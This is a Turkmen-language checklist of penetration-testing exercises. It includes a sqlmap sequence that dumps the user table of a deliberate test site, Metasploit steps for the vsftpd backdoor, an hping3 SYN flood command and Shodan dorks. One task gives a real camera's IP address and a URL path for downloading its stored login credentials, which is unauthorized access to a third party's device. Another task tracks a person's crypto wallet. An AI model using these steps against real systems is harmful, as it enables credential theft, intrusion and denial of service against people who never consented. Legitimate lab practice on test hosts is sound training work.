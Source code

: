  1
Test php.Vuln.com/artists.php?artist=1
Şu salga sql injection etmeli. (kali sql map)	
Brauzer şu salgyny giriz: http://testphp.vulnweb.com/artists.php?artist=1  	
sqlmap --url http://testphp.vulnweb.com/login.php
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threats 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 –dbs
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart --tables
sqlmap --url http://testphp.vulnweb.com/login.php --crawl 2 -batch --threads 3 -D acuart -T users --dump
 2
 
Wireshark-da vpn tunel arkaly geçýän maglumatlaryň gowşaklyklaryny tapmaly

3 
Wireshark ulanyp DNS protokolyny seljermeli gowşaklyklary anyklamaly.

4
Shodan.io IoT gowşaklyklaryny tapyp peýdalanmak(kamera açmaly).
https://vk.com/@wiwosit-ekspluatiruem-uyazvimost-kamer

Shodan-a girmeli we aşakdaky buýrugy ýazmaly...
realm="GoAhead", domain=":81" port:"81"
http://202.215.62.86:81/ yzyna şuny goş: 
system.ini?loginuse&loginpas
http://202.215.62.86:81/system.ini?loginuse&loginpas
Faýl ýüklär, şol ýerden ulanyjy adyny we paroly almaly


5
RAR faýlyň parolyny döwmeli. (LostMyPass programma).
https://www.lostmypass.com/ onlaýn döwmek üçin şu web salgy...
6
NMAP arkaly belli bir IP-nyň açyk portlaryny we gowşaklyklaryny ýüze çykarmaly.
7
Burpsuite ulgamy bilen web sahypanyň gowşaklygyny bruteforce etmeli.
8
Gmail-e gelýän hatlary diňe şu kompýuterde ýatda saklar ýaly etmeli(setting-den düzetmeli).
9
Nmap arkaly port skannirlemek we hyzmat maglumatlary
(nmap -sV -p- 192.168.0.23)

					    10
Shodan.io-de vpn-yň gowşaklyklaryny ýüze çykarmak we seljermek.
http.title:"openvpn", port:"8443"

   11
Metasploit arkaly exploit ulanmak.

   12
OSINT gurallaryny ulanmak arkaly maglumatlary ýygnamak.
(google dorking, Tin Eye Reverse Image Search, FaceCheck Reverse Image search, RevEye reverse Image Search, Whois History)


					  13
SSH açar bilen serwere birikmek.
(paroly aýyryp açar bilen girmeli,  etc/ssh/sshdconfig/digital ocean ssh key)

					  14
Metasploit FTP protokol backdoor goýmaly.

Ädimler
nmap -sV <ip_salgy>
kali linux-da: msfconsole buýrugyny ýazyp metasploit-e giriň
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <ip_salgy>
exploit ýa-da run
  15
Wireshark-da pakedi seljerip gowşaklyklary ýüze çykarmak.

 16
SSH port forwarding (Bir kompýuterden 80-nji portdan çykmaly, beýleki kompýuteriň 80-nji portyndan girmeli).
sudo ssh -L 80:localhost:80 <username>@<remote_host>

17
OSINT. Plany Planyýew kripto kaşilýogyny tapmaly. Tranzaksiýalary görmeli.
Google-da şahsyň adyny ýazsaň çykarýar ýa-da osint framework-dan peýdalanyň.
Blockchain.com Explorer.
Etherscan
1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa  kripto salgy.

18
Syn Flooding paketlerini Wireshark-yň üsti bilen seljermek.
tcp.flags.syn==1 && tcp.flags.ack==0
hping3 -S -p 80 --flood --rand-source <target IP>  cmd kali yaz.

19
Linux servere ssh arkaly diňe bir IP bilen biriger ýaly etmeli, ssh arkaly başga IP-ler bilen birikmez ýaly etmeli. (UFW firewall)
Sudo su
Ufw default deny incoming
Ufw default allow outgoing
sudo ufw allow from <YOUR_IP> to any port 22
“sudo ufw deny 22” (nabelli bolmasa yazmalydyr)
sudo ufw status
sudo ufw enable

